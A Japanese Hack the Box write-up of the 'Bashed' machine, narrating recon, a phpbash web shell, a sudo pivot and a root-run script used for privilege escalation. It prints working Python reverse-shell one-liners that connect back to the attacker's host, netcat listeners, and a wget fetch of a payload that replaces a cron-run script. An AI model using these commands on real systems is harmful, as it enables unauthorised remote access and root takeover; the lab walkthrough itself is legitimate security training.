 ```yaml
---
title: "【Hack the Box write-up】Bashed"
date:  "2020-03-15T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Bashed"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

#はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
#cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

#machine について
難易度は easy です。


#nmap

```
kali@kali:~$ nmap -p- -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https:/ map.org ) at 2020-03-14 20:53 EDT
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 65505 closed ports, 29 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https:/ map.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4542.47 seconds

```

#80 番ポートを開いてみる
![スクリーンショット 2020-03-15 16.37.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/ab2814c3-17c9-df5d-cc50-5fe7f03f99ec.png)
![スクリーンショット 2020-03-15 16.38.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f032ba69-c5ec-03a3-583f-16f396d4ec9e.png)

phpbash について説明した記事が出てきます。

#dirbuster

![スクリーンショット 2020-03-15 16.38.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/70945b83-cc45-d99f-45f3-641eea71d2eb.png)
`/dev`に `phpbash.php` が見つかります。

#`phpbash.php`を開く
![スクリーンショット 2020-03-15 16.40.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/d55101b4-8931-e12e-86f2-435f751dca78.png)
このようなターミナルのような画面が現れます。

![スクリーンショット 2020-03-15 16.42.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7e7e3071-d7b1-54f4-100c-63d6a2ee364d.png)

user.txt が取れました。

#とりま `sudo -l` する

![スクリーンショット 2020-03-15 16.43.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a2a2b561-cc6d-f867-cba4-4083c68f6d1e.png)

scriptmanager という user に切り替えられることがわかります。

#リバースシェルをとる

なぜか phpbash で scriptmanager の bash に切り替えられなかったので（←詰まったポイント 1)phpbash から一旦普通のリバースシェルに切り替えます。

ホスト側で以下のように待ち構えて

```
$ nc -lvnp 4242
```
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python のコードをそのまま拝借して使用します。
IPv4 ではなぜか失敗します（←詰まったポイント 2
他の writeup をみてみると IPv4 じゃなくて IPv6 なら成功するよってことで IPv6 を使用すると、

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

以下のようにリバースシェルが取れました。

```
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 39742
/bin/sh: 0: can't access tty; job control turned off
$ 
```

そしてリバースシェルの方で scriptmanager に切り替えようとしてみると

```
$ sudo -u scriptmanager bash
whoami
scriptmanager
```
成功しました。

#ディレクトリ探索
scriptmanager という名前なので script などの名前のついたファイルを中心に探してみると、ルートディレクトリに `/script` が存在し、案の定 scriptmanager が所有していることになっています。

```
cd /
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Mar 14 17:55 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 124 root          root              0 Mar 14 17:55 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Mar 14 17:55 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Mar 15 00:33 sys
drwxrwxrwt  10 root          root           4096 Mar 15 00:55 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

中をみてみます。

```
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 15 00:56 test.txt
```
scriptmanager の所有する `test.py` 、root が所有する `test.txt` が存在します。
中を覗くと

```
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

cat test.txt
testing 123!
```
となっています。

ここでもここからどうすれば？？という感じだったのですが、注目すべきは `test.txt` の**更新時間**でした。

このファイルだけ明らかに最近更新されており、`ls -la`でみるたびに更新されています。

- 頻繁に更新されていることから自動で `test.py` が実行されるようになっていると予想される
- `test.txt`は root の所有なので `test.py` の実行は root が行なっていると考えられる
- そして `test.py` は scriptmanager の所有なので編集できる

ここまで言えば何をすればいいか明確ですね（←自分では分からなくて[writeup](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/)みた人）

#test.py を編集する
正確には編集したものをホストから持ってきます。

```test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

見にくいですね。これは先ほどの[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python の IPv6 のコードをそのまま持ってきたものです（IP アドレスとかは変えてます）

ホスト側で SimpleHTTPServer を使って machine 側で取得します。

```
kali@kali:~$ python -m SimpleHTTPServer
```

```
rm test.py
wget http://10.10.14.3:8000/test.py
--2020-03-15 01:09:23--  http://10.10.14.3:8000/test.py
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 215 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 24.3M=0s

2020-03-15 01:09:24 (24.3 MB/s) - 'test.py' saved [215/215]
```

これで既存の test.py を先ほど編集した test.py に切り替えられました。
ホスト側で root のリバースシェルを待ち受けます

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```
>自動で `test.py` が実行されるようになっていると予想される

なのでしばらく待ってみると

```
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 37178
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
root が取れました！

#終わりに
今回は `ls -la` で所有者の違いと更新日時から root が定期的に `test.py` を実行しているということを見破るという部分が自分では見破れませんでした…
精進します。。

 
